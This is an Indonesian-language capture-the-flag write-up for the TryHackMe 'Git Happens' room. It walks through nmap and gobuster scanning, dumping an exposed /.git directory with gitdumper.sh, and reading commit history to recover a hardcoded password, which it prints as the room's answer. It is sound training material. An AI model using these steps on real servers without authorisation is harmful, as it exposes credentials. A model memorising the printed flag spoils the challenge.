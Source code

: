 # Git Happens
- Tryhackme challenge: https://tryhackme.com/room/githappens
- IP Machine: 10.10.19.3

## Task 1 Capture the Flag
- Scanning port menggunakan nmap
```sh
nmap -sC -sV -A <IP_Machine> 
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%201.JPG)

- Port yang terbuka hanya port 80 (Web Server). Sekarang kita coba akses halaman web melalui browser dengan url `http://<IP_Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%202.JPG)

- Sekarang kita coba mencari halaman yang tersembunyi dengan menggunakan tool gobuster
```sh
gobuster dir -u http://<IP_Machine> -w /usr/share/wordlists/dirb/common.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%203.JPG)

- Ditemukan halaman **/.git**, sekarang kita coba akses halaman tersebut di browser dengan url `http://<IP_Machine>/.git`. Ternyata halaman tersebut berisi hasil clonning repository git

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%204.JPG)

- Kita bisa memanfaatkan GitTools ( https://github.com/internetwache/GitTools ) untuk menyalin repository tersebut ke local. Untuk melakukan instalasi cukup jalankan perintah berikut ini
```sh
git clone https://github.com/internetwache/GitTools.git
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%205.JPG)

- Navigasi ke folder **GitTools/Dumper** tempat program **gitdumper.sh** tersimpan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%206.JPG)

- Clonning repository ke local dengan **gitdumper.sh** dan tunggu prosesnya hingga selesai
```sh
./gitdumper.sh http://10.10.19.3/.git/ <path_local>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%207.JPG)

- Navigasi ke folder hasil clonning kemudian cek status terakhir repository dengan git
```sh
git status
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%208.JPG)

- Sekarang kita lihat log perubahannya dengan git
```sh
git log
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%209.JPG)

- Tekan enter untuk menampilkan log berikutnya. Di log selanjutnya terdapat commit kapan halaman login dibuat. Halaman login dibuat pada tanggal 23 Juli 2020. Copy kode hash pada bagian commit untuk menampilkan detail log nya 

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%2010.jpg)

- Tampilkan detail lognya dengan git
```sh
git show 395e087334d613d5e423cdf8f7be27196a360459
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%2011.JPG)

- Tekan enter untuk menampilkan log selanjutnya. Pada bagian paling bawah ditemukan username dan password

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Git%20Happens/assets/gh%2012.jpg)

- **Pertanyaan:** Find the Super Secret Password
- **Jawaban:**
```sh
Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
```

